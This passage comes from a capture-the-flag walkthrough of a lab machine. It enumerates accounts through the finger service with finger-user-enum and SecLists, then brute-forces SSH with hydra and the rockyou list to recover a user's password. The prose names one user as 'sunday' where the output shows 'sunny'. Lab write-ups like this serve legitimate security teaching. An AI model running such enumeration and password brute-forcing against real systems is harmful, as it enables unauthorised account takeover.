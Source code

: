 ```text
root@kali:~# finger root@10.10.10.76                                                                                                                                           
Login       Name               TTY         Idle    When    Where                                                                                                               
root     Super-User            pts/3        <Apr 24, 2018> sunday
```

It does exist. Now, let’s enumerate more usernames. The [seclists](https://installlion.com/kali/kali/main/s/seclists/install/index.html) project has a list of usernames that we can use in order to guess the usernames that are available on the server.

```text
/usr/share/seclists/Usernames/Names/names.txt
```

Pentestmonkey has a [finger-user-enum](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum) script that is used to enumerate OS-level user accounts via the finger service. Let’s run that on our host.

```text
./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76
```

* **-U:** file of usernames to check via finger service
* **-t:** server host running finger service

We get the following result showing us that “sammy” and “sunday” are users of the system.

```text
....
sammy@10.10.10.76: sammy                 pts/2        <Apr 24, 2018> 10.10.14.4          ..                                                                                    
sunny@10.10.10.76: sunny                              <Jan  5 23:37> 10.10.14.12         ..
....
```

## Initial Foothold <a id="4d32"></a>

Since SSH is open and we have two valid usernames, let’s try brute-forcing the users’ credentials using hydra. We’ll start off with Sunny.

```text
hydra -l sunny -P '/usr/share/wordlists/rockyou.txt' 10.10.10.76 ssh -s 22022
```

* **-l:** username
* **-P:** password file
* **-s:** port

We get back the following result showing us that Sunny’s password is “sunday”.

```text
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
....
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
....
```
